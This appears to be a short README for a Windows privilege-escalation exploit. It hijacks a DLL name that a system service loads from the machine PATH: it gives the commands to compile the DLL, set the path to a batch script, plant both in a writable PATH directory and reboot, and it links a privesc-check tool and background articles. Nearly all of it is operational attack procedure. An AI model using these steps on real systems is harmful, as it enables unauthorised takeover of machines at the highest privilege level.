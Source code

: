 - Load x64 visual studio environnement variables:  
```
C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\VC\Auxiliary\Build\vcvars64.bat
```
  
- Go inside your source dir and run (BUILD MANUALLY to avoid unwanted dependencies):  
```
cl /LD /MT /EHa dllmain.cpp /Fe:WptsExtensions.dll
```
  
- Update bat script path:  
```
const TCHAR script[] = TEXT("C:\\Python27\\script.bat"):  
```
  
- Drop the DLL and script.bat in your writable directory (from the machine PATH)
```
powershell -Command "[System.Environment]::GetEnvironmentVariable('PATH','Machine')"
```
  
- Reboot  
  
Tool to use during your privesc:  
[https://github.com/itm4n/PrivescCheck](https://github.com/itm4n/PrivescCheck)  
  
Articles:  
[https://itm4n.github.io/windows-dll-hijacking-clarified/](https://itm4n.github.io/windows-dll-hijacking-clarified/)  
[http://remoteawesomethoughts.blogspot.com/2019/05/windows-10-task-schedulerservice.html](http://remoteawesomethoughts.blogspot.com/2019/05/windows-10-task-schedulerservice.html)
